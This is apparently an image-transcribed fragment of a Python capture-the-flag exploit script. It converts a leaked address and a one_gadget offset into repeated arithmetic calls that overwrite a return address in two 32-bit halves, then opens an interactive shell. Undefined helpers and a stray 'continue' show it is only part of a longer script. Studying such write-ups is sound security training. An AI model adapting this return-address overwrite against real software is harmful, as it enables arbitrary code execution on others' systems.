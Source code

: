 ```python
  exec_leak = l


  one_gadget_part_1 = one_gadget & 0xffffffff
  ret_address_part_1 = exec_leak & 0xffffffff
  one_gadget_part_2 = (one_gadget>>32) & 0xffffffff
  ret_address_part_2 = (exec_leak>>32) & 0xffffffff


  temp = (one_gadget_part_1 - ret_address_part_1)
  print temp

  if(temp > 300000000 or temp < 0):
    p.close()
    continue
  init_coins(4, [9 for i in range(4)])
  while(one_gadget_part_1 > ret_address_part_1 + 6322120):
    compute(3006)
    ret_address_part_1 += 6322120

  print "HOPE"

  init_coins(3, [9 for i in range(3)])
  while(one_gadget_part_1 > ret_address_part_1 + 56280):
    compute(3006)
    ret_address_part_1 += 56280

  print "HOPE"

  init_coins(2, [9 for i in range(2)])
  while(one_gadget_part_1 > ret_address_part_1 + 335):
    compute(3006)
    ret_address_part_1 += 335

  print "HOPE"

  init_coins(1, [9])
  while(one_gadget_part_1 != ret_address_part_1):
    compute(3006)
    ret_address_part_1 += 1

  print "HOPE"

  init_coins(2, [31 for i in range(2)])
  while(one_gadget_part_2 > ret_address_part_2 + 98):
    compute(3007)
    ret_address_part_2 += 98

  print "HOPE"

  init_coins(1, [31])
  while(one_gadget_part_2 != ret_address_part_2):
    compute(3007)
    ret_address_part_2 += 1

  end()
  p.interactive()
  p.close()
```
